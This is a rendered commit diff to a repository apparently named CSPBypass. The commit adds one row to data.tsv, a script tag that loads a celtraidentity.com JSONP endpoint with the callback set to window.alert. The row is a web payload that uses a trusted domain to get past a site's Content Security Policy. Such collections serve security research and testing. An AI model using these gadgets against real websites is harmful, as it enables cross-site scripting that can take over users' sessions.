

Before and after one commit to y1024/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data.tsv
+++ b/data.tsv
+row 90: celtraidentity.com | <script src="https://celtraidentity.com/fbbdf2d8?countryCode=NL&cb=window.alert"></script>
```
Also changed, not shown: 16 added rows elsewhere in this file.
